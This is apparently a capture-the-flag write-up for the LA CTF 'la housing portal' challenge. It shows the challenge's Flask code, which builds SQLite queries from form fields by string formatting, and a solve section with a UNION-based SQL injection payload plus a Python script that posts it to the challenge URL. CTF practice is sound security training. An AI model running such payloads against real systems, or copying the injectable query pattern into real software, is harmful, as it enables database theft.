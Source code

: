 la housing portal
> Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.
Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.
> 
> Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.

```py
import sqlite3
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r

# def get_flag():
#     conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
#     cursor = conn.cursor()
#     cursor.execute("select * from flag;")
#     r = cursor.fetchall()
#     cursor.close()
#     return r
```

Goal:
- SQL injection
- pass all the check
- payload cannot place at name (it pops before `get_matching_roommates`)

## Solve
The payload I choose is `' UNION select 0,flag,2,3,4,5 from flag where ''='`

I make a simple python script to send that request
```py
import requests as req

# url = "http://0.0.0.0:5000/submit"
url = "https://la-housing.chall.lac.tf/submit"
key = "guests"
value = "' UNION select 0,flag,2,3,4,5 from flag where ''='"
assert len(key) <= 10
assert len(value) <= 50

data = {
    key: value,
    "name":"hacker"
}
response =req.post(url, data)
print(response.text)

```